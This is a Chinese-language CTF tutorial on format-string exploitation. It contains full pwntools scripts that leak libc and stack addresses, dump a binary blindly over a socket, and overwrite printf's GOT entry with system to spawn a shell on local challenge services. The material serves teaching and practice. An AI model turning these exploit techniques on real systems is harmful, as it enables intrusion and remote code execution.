# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : contacts.py
from pwn import *
context.log_level = 'debug'

p = process("./contacts")
elf = ELF("./contacts")
#libc = ELF("/lib/i386-linux-gnu/libc.so.6")
# 使用题目提供的libc
libc = ELF("./libc.so")

def creat(name,number,length,description):
	p.sendlineafter(">>> ",'1')
	p.sendlineafter("Name: ",name)
	p.sendlineafter("No: ",number)
	p.sendlineafter("description: ",str(length))
	p.sendlineafter("description:\n",description)

def free(name):
	p.sendlineafter(">>> ",'2')
	p.sendlineafter("remove? ",name)

def edit(name,choose,newname='skye',length=10,description='skye'):
	p.sendlineafter(">>> ",'3')
	p.sendlineafter("change? ",name)
	p.sendlineafter(">>> ",str(choose))
	if(choose==1):
		p.sendlineafter("name: ",newname)
	elif(choose==2):
		p.sendlineafter("description: ",str(length))
		p.sendlineafter("Description: \n",description)

def show():
	p.sendlineafter(">>> ",'4')

    
# leak libc
creat("skye","skye",24,'a'*4+"%31$p")
show()
p.recvuntil('a'*4)

libc_start_main = int(p.recv(10),16)
log.info("libc_start_main:"+hex(libc_start_main))
libc_base = libc_start_main - 0x18637
log.info("libc_base:"+hex(libc_base))
system_addr = libc_base + libc.symbols['system']
log.info("system_addr:"+hex(system_addr))
binsh_addr = libc_base + libc.search('sh\x00').next()
log.info("binsh_addr:"+hex(binsh_addr))


# leak ebp&heap addr
# 将system前置可能会遇到\x00阻断，可自行后置，并调整ebp覆盖值
payload = p32(system_addr) + 'bbbb' + p32(binsh_addr) + '%6$p%11$pcccc'
creat('2222', 'skye', 0x20, payload)
show()
p.recvuntil('Description: ')
data = p.recvuntil('cccc', drop=True)
data = data.split('0x')
ebp_addr = int(data[-2], 16)
log.info("ebp_addr:"+hex(ebp_addr))
heap_addr = int(data[-1], 16)
log.info("heap_addr:"+hex(heap_addr))


# overwrite main_ebp
payload = '%{}c%6$n'.format(str(heap_addr-4))
creat('3333', 'skye', 68, payload)
#gdb.attach(p,'b *0x0804876A')
#raw_input('pause')
show()


#getshell
p.recvuntil('>>> ')
p.sendline('5')

p.interactive()
```

需要注意的是，这样并不能稳定得到 shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

为什么需要打印这么多呢？因为格式化字符串不在栈上，所以就算我们得到了需要更改的 ebp 的地址，也没有办法去把这个地址写到栈上，利用 $ 符号去定位他；因为没有办法定位，所以没有办法用 hn\hhn 等方式去写这个地址，只能用 n 方式去写，所以打印很多。

**注解**：

我的脚本中用的不是 ``system('/bin/sh')`` ，而是 ``system('sh')`` ，这是因为用题目提供的 libc 搜索 /bin/sh 得到结果有误，得到的地址不是 /bin/sh ：


而去到 libcdatabase 得到结果是：``0xf7f60a0b``，里面有一个 0x0a 就是换行符嘛，这样会提前终止输入，所以也不行。最后使用题目提供 libc 搜索 sh ，成功 getshell 。

在我的环境（Ubuntu 16.04）没有遇到 system \x00 阻断，所以 payload 中 system 前置。如果遇到阻断，就将 system 后置，并调整 ebp 覆盖内容加上偏移即可。

## 格式化字符串盲打

> ctf-wiki 上格式化字符串介绍不是很全面，我查了其他大佬的笔记，自己总结了：[Bilnd-格式化字符串盲打](Bilnd_Pwn.md)

### 原理 

所谓格式化字符串盲打指的是只给出可交互的 ip 地址与端口，不给出对应的 binary 文件来让我们进行 pwn，其实这个和 BROP 差不多，不过 BROP 利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

- 确定程序的位数
- 确定漏洞位置
- 利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

### 例子 1 - 泄露栈 

源码和部署文件均放在了对应的文件夹 [fmt_blind_stack](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_stack) 中。

#### 确定程序位数 

我们随便输入了 %p，程序回显如下信息

```shell
➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
%p
0x7ffd4799beb0
G�flag is on the stack%                          
```

告诉我们 flag 在栈上，同时知道了该程序是 64 位的，而且应该有格式化字符串漏洞。

#### 利用 

那我们就一点一点测试看看

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1
```

最后在输出中简单看了看，得到 flag

```shell
////////
////////
\x00\x00\x00\x00\x00\x00\x00\xff
flag{thi
s_is_fla
g}\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\xfe\x7f\x00\x00
```

### 例子 2 - 盲打劫持 got

源码以及部署文件均已经在 [blind_fmt_got](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_got) 文件夹中。

#### 确定程序位数 

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为 64 位。

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
%p
0x7fff3b9774c0
```

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

#### 确定偏移 

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
aaaaaaaa%p%p%p%p%p%p%p%p%p
aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025
```

据此，我们可以知道格式化字符串的起始地址偏移为 6。

#### 泄露 binary

由于程序是 64 位，所以我们从 0x400000 处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入 '\x00' 字符的，不然没法泄露怎么玩，，除此之后，输出必然是 '\x00' 截断的，这是因为格式化字符串漏洞利用的输出函数均是 '\x00' 截断的，所以我们可以利用如下的泄露代码。

```python
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None

def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()
getbinary()
```

需要注意的是，在 payload 中需要判断是否有 '\n' 出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

#### 分析 binary

利用 IDA 打开泄露的 binary ，改变程序基地址，然后简单看看，可以基本确定源程序 main 函数的地址

```shell
seg000:00000000004005F6                 push    rbp
seg000:00000000004005F7                 mov     rbp, rsp
seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
seg000:00000000004005FE
seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
seg000:00000000004005FE                 lea     rax, [rbp-80h]
seg000:0000000000400602                 mov     edx, 80h ; '€'
seg000:0000000000400607                 mov     rsi, rax
seg000:000000000040060A                 mov     edi, 0
seg000:000000000040060F                 mov     eax, 0
seg000:0000000000400614                 call    sub_4004C0
seg000:0000000000400619                 lea     rax, [rbp-80h]
seg000:000000000040061D                 mov     rdi, rax
seg000:0000000000400620                 mov     eax, 0
seg000:0000000000400625                 call    sub_4004B0
seg000:000000000040062A                 mov     rax, cs:601048h
seg000:0000000000400631                 mov     rdi, rax
seg000:0000000000400634                 call    near ptr unk_4004E0
seg000:0000000000400639                 jmp     short loc_4005FE
```

可以基本确定的是 sub_4004C0 为 read 函数，因为读入函数一共有三个参数的话，基本就是 read 了。此外，下面调用的 sub_4004B0 应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个 while 1 的循环，一直在执行。

**注解：**补充一张图



#### 利用思路 

分析完上面的之后，我们可以确定如下基本思路

- 泄露 printf 函数的地址，
- 获取对应 libc 以及 system 函数地址
- 修改 printf 地址为 system 函数地址
- 读入 /bin/sh; 以便于获取 shell

#### 利用程序 

程序如下。

```python
##coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()


##getbinary()
read_got = 0x601020
printf_got = 0x601018
sh = remote(ip, port)
## let the read get resolved
sh.sendline('a')
sh.recv()
## get printf addr
payload = '%00008$s' + 'STARTEND' + p64(read_got)
sh.sendline(payload)
data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
sh.recv()
read_addr = u64(data)

## get system addr
libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
log.success('system addr: ' + hex(system_addr))
log.success('read   addr: ' + hex(read_addr))
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()

## get shell
sh.sendline('/bin/sh;')
sh.interactive()
```

这里需要注意的是这一段代码

```python
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()
```

fmtstr_payload 直接得到的 payload 会将地址放在前面，而这个会导致 printf 的时候 '\x00' 截断（**关于这一问题，pwntools 目前正在开发 fmt_payload 的加强版，估计快开发出来了。**）。所以我使用了一些技巧将它放在后面了。主要的思想是，将地址放在后面 8 字节对齐的地方，并对 payload 中的偏移进行修改。需要注意的是

```shell
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
```

这一行给出了修改后的地址在格式化字符串中的偏移，之所以是这样在于无论如何修改，由于 '%order$hn' 中 order 多出来的字符都不会大于 8。具体的可以自行推导。

### 题目 

- SuCTF2018 - lock2 （主办方提供了 docker 镜像: suctf/2018-pwn-lock2）